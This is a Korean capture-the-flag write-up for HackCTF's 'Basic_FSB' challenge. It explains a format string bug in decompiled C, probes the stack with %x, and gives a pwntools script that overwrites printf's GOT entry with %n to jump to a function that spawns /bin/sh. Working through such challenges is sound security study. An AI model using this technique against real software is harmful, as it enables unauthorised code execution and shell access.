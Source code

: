 ```yaml
---


---
```


<h1 id="hackctfbasic_fsb">HackCTF:Basic_FSB</h1>
<h2 id="해석">2019-08-03 해석</h2>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  vuln();
  return 0;
}
</code></pre>
<p>함수 <code>vuln()</code>을 추적한다.</p>
<pre><code>int vuln()
{
  char s; // [esp+0h] [ebp-808h]
  char format; // [esp+400h] [ebp-408h]

  printf("input : ");
  fgets(&amp;s, 1024, stdin);
  snprintf(&amp;format, 0x400u, &amp;s);
  return printf(&amp;format);
}
</code></pre>
<p>함수 <code>snprintf()</code> 를 사용한다. <code>snprintf()</code>는 <code>sprintf()</code>에 사이즈 인자가 들어간 것으로 <code>sprintf()</code> 는 <code>printf()</code> 와 달리 stout이 아닌 buff등에 문자열을 저장한다. 리턴은 문자열의 사이즈이다.</p>
<p>이 프로그램은 1024byte의 문자열을 입력 받고 그 문자열을 <code>snprintf()</code>로 문자 배열에 넣은 뒤 출력하는 프로그램이다.</p>
<h2 id="풀이-1">2019-08-05 풀이-1</h2>
<p>FSB(Format String Bug)는 <code>printf()</code>와 같은 함수에서 문자열이 포맷에 따라 맞춰질때 생기는 취약점이다.<br>
%n라는 인자를 이용한다. 이 인자는 스트링의 byte size를 특정 주소에 넣는 기능을 한다. %4$n 이런 식으로 연속해서 사용 할 수 있다.</p>
<p>위의 소스에서 <code>snprintf()</code> 에 들어갈 스트링을 우리가 직접 입력할 수 있게 되어있다.</p>
<pre><code>int flag()
{
  puts("EN)you have successfully modified the value :)");
  puts(aKr);
  return system("/bin/sh");
}
</code></pre>
<p>또한 IDA로 <code>flag()</code> 함수가 있다는것을 확인했다. FSB로 이것을 실행하는 것이 목표이다.<br>
FSB를 파고들 때는 어떻게 해야 스택과 접촉이 가능한지 알아보는것이 핵심이다. 따라서 임의로 %x를 집어넣어 보겠다.</p>
<pre><code> ⚡ root@kali  ~/Documents/HackCTF/03-Basic_FSB  ./basic_fsb   
input : AAAA %x
AAAA f7fd02b4
 ⚡ root@kali  ~/Documents/HackCTF/03-Basic_FSB  ./basic_fsb
input : AAAA %x %x
AAAA f7f092b4 41414141
 ⚡ root@kali  ~/Documents/HackCTF/03-Basic_FSB  ./basic_fsb
input : AAAA %x %x %x
AAAA f7f1d2b4 41414141 20782520
 ⚡ root@kali  ~/Documents/HackCTF/03-Basic_FSB  
</code></pre>
<h2 id="풀이-2">2019-08-08 풀이-2</h2>
<p>%x(16진수 호출) 을 두번 사용하니 입력한 "AAAA"가 노출되었다. 즉 두번째 %x가 취하는 값은 우리가 입력한 값이다. 이 위치를 이용하여 printf의 got주소를 입력 한 뒤 두번째 인자를 %n으로 바꾸어 전체 byte를 <code>flag()</code> 함수의 주소로 맞추어보자.</p>
<pre><code>pwndbg&gt; p flag
$1 = {&lt;text variable, no debug info&gt;} 0x80485b4 &lt;flag&gt;
</code></pre>
<p>함수 <code>flag()</code>의 주소는 0x80485b4(134514096‬)이다.<br>
즉 <em>‘printf_got’(4byte) + %!ANY! + !SOMETHING! + %n = 134514096byte</em> 이여야 하며 SOMETHING을 조절해야 한다.<br>
이 때 %!ANY!의 사이즈는 %10x 식의 방식으로 사이즈를 지명하면 편리하게 사용할 수 있다. 꼭 16진수 형이 아니여도 가능하다.</p>
<p><strong><a href="http://payload.py">payload.py</a></strong></p>
<pre><code>from pwn import *
p = remote('ctf.j0n9hyun.xyz',3002)
e = ELF('./basic_fsb')

printf_got = e.got['printf']

payload = ''
payload += p32(printf_got)
payload += "%134514096x%n"

print payload
p.recvuntil(": ")
p.sendline(payload)
p.interactive()
</code></pre>

